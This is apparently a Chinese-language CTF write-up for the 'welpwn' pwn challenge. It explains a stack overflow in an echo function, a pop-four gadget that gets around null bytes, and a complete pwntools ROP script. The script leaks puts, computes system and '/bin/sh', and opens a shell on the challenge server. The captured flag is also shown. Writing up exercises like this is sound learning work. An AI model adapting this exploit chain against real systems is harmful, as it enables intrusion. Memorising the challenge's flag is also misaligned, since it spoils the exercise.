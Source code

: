 # welpwn

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=d3f1c5ba-629a-46a3-a6b0-fabc4956585c_2&task_category_id=2)

这题看着writeup再按照自己的情况改造一下，然后稀里糊涂做出来了。其实不太懂原理。

ghidra和shell双管齐下，一个反编译，一个运行+checksec。

-   Arch:     amd64-64-little
    <br>RELRO:    Partial RELRO
    <br>Stack:    No canary found
    <br>NX:       NX enabled
    <br>PIE:      No PIE (0x400000)

运行发现程序作用是输出前面输入的内容。main函数中调用了echo函数来实现这一点。我最开始还以为c语言里面有echo，还去搜了下(･_･;。main函数里面没有栈溢出。

```c
undefined8 main(void)
{
  undefined local_408 [1024];
  write(1,"Welcome to RCTF\n",0x10);
  fflush(stdout);
  read(0,local_408,1024);
  echo(local_408);
  return 0;
}
```

但是echo函数就有问题了。

![echo](../../images/changeRBP.png)

echo的参数是local_408，长度最长可以有1024个字节。但是echo内部的local_18只有16个字节。理论上是个简单的rop，但是echo内部的实现有点恶心。for循环会拷贝参数的每一个字节存到local_18里，一旦遇到\0就停止拷贝。

这对我们有什么影响呢？64位的程序中的地址末尾一定会有\0，意味着我们没法构造跳来跳去的rop链了，最多只能改变一次返回地址，也就是echo的。其实吧到这里我还没有任何思路，看writeup才发现可以跳到一段连续pop4次的gadget，然后就可以继续执行rop链了。

为什么pop4次就能执行rop链的原理讲解最好的writeup是题目writeup区seaase写的那个。不用再去别的地方搜了，别的都没讲。我自己再记录一下，还是要了解一下栈。

![stack](../../images/best.png)

这张图非常清楚。首先在ghidra中可以看到local_18距离栈基指针rbp有0x18个字节，所以溢出前先要0x18个字节填充，接着是pop4次的gadget。程序在返回到gadget时调用了ret指令，这个指令的定义如下：

- 返回(ret)：与call指令配合，用于从函数或过程返回。从栈顶弹出返回地址(之前call指令保存的下条指令地址)到EIP寄存器中，程序转到该地址处继续执行(此时ESP指向进入函数时的第一个参数)。若带立即数，ESP再加立即数(丢弃一些在执行call前入栈的参数)。使用该指令前，应使当前栈顶指针所指向位置的内容正好是先前call指令保存的返回地址。

说明在返回后，echo 0x20的栈帧的rsp就已经指向local_408了。（两个函数的local_408和local_18挨着，这是能实现\0绕过的关键点）。现在gadget又pop4次，继续把rbp往上移，那么rbp指向的就是rop链的下一个地址了。pop4次gadget返回时，栈顶rbp指向的地址就是下一条要执行的指令，也就是rop链的下一个gadget。种种巧合使我们成功绕过\0。

现在就是找pop4次的gadget。ropgadget命令搞定。

- ROPgadget --binary ctf --only 'pop|ret'

0x000000000040089c完美符合要求。接下来就简单了，按普通rop那么搞就行了。网上一般就两种套路：使用pwntools的DynELF找函数地址，或者libcSearcher。但是我既无法使用dynelf，也没有libcsearcher，所以我会使用老方法——在线libc库搜索。还有一个点，很多人用write来泄露地址，不过我永远是puts的忠实粉丝。就是这里不知道为啥puts泄露地址的地方有点诡异，在Welcome to RCTF这句话之后，还有两个字节不算。慢慢摸索找到了正确获取地址的方式。这次远程机使用的libc也和之前不一样，试了好多次，差点放弃不过最后还是做出来了。(^V^)

再补充一下，也有很大一部分人用万能gadget来实现。我觉得有点麻烦就没用，不过还是推荐学习一下万能gadget的，有点厉害。万能gadget的使用也可以在题目的writeup区找到。

```python
from pwn import *
puts_got = 6295576
puts_plt=4195744
main_addr=0x004007cd
pop_r12_r13_r14_r15=0x000000000040089c
pop_rdi=0x00000000004008a3
payload=b'a'*0x18+p64(pop_r12_r13_r14_r15)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
proc=remote("61.147.171.105",52217)
proc.sendlineafter("Welcome to RCTF",payload)
puts_addr=u64(proc.recvn(50)[-6:].ljust(8,b'\x00'))
system_offset=-0x2a300
bin_sh_offset=0x11d6c7
payload=b'a'*0x18+p64(pop_r12_r13_r14_r15)+p64(pop_rdi)+p64(puts_addr+bin_sh_offset)+p64(puts_addr+system_offset)+p64(main_addr)
proc.sendlineafter(b"\n",payload)
proc.interactive()
```

- ### Flag
  > cyberpeace{80b05b8c5d023cebb52a93348ff7b4da}

